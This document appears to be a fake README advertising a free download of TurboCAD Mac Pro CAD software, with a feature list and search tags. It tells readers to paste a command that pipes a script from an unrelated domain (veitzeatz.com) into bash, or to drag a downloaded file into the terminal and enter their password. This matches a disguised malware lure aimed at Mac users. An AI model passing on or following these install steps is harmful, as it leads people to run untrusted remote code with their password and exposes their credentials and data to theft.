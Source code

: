 # TurboCAD Mac – Pro CAD Software for macOS

![TurboCAD Mac Pro Blending](https://architosh.com/wp-content/uploads/2024/08/TCMac_Pro_Blending.jpg)

## 📥 Download TurboCAD for Mac – Pro Version

[![⬇️ Download TurboCAD Mac](https://img.shields.io/badge/Download-TurboCAD%20Mac-blue?style=for-the-badge&logo=apple)](#)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is TurboCAD Mac?

**TurboCAD Mac** is a powerful, professional-grade CAD software tailored specifically for **macOS** users. Ideal for architects, engineers, product designers, and 2D/3D drafters, it offers a robust feature set that allows for **precision drawing**, **3D modeling**, **rendering**, and **mechanical design** in a native Mac environment.

TurboCAD Mac comes in several versions — including **Designer**, **Deluxe**, and **Pro** — to suit beginners through to experienced professionals. The **Pro version** supports **3D surface and ACIS solid modeling**, **photorealistic rendering**, and **BIM-like tools**, while the **Designer edition** focuses on intuitive 2D drafting tools.

With full support for the **latest macOS versions**, including **Apple Silicon (M1/M2/M3)** chips, TurboCAD Mac is a go-to solution for serious CAD work on Mac computers.

This software is used worldwide for **architectural floor plans**, **engineering schematics**, **mechanical parts**, **furniture design**, and much more. If you’re looking for an alternative to AutoCAD on Mac — TurboCAD is your answer.

---

![TurboCAD Mac Screenshot](https://www.fortsoft.com.ua/upload/resize_cache/iblock/d32/700_700_1/imsi_design_turbocad_mac_designer_fortsoft_scr_2.jpg)

---

## ⚙️ Key Features

- 🖊️ **2D Drafting & 3D Modeling** – Draw in 2D, build in 3D.
- 🧱 **Solid & Surface Modeling** – Create professional-grade designs using ACIS solids.
- 💡 **Photorealistic Rendering** – Produce high-quality visuals with LightWorks rendering.
- 💾 **File Compatibility** – Supports DWG, DXF, SKP, 3DS, STL, and more.
- 🧠 **Intuitive UI** – Designed specifically for macOS with a clean, accessible interface.
- 💻 **macOS Native** – Fully optimized for Ventura, Monterey, Big Sur, and Apple M1/M2 chips.
- 🔄 **2D to 3D Tools** – Convert sketches and plans into working 3D models easily.
- 🌐 **Multilingual Support** – Available in English, Deutsch, and more.

---

## ✅ Available Versions

- **TurboCAD Mac Designer 2D v12** – Ideal for beginners and basic drafting.
- **TurboCAD Mac Deluxe** – Adds 3D modeling, photorealistic rendering.
- **TurboCAD Mac Pro v12** – Advanced modeling tools, lighting control, and surface blending.

---

## 📦 System Requirements

- macOS 10.15 or later (Ventura, Monterey, Big Sur supported)
- Apple Silicon (M1/M2/M3) and Intel-based Macs
- Minimum 4 GB RAM (8+ GB recommended)
- Internet connection for activation

---

## 🔍 Tags

turbocad mac, turbo cad mac, turbocad pro mac, turbocad mac download, turbocad mac free download, turbocad 2d mac, turbocad mac m1, turbo cad mac pro, turbocad deluxe for mac, turbocad mac designer, turbocad mac designer 2d v12, turbocad mac deutsch, turbocad mac pro v12, turbocad v12, turbocad pro mac free download, turbocad pro mac download
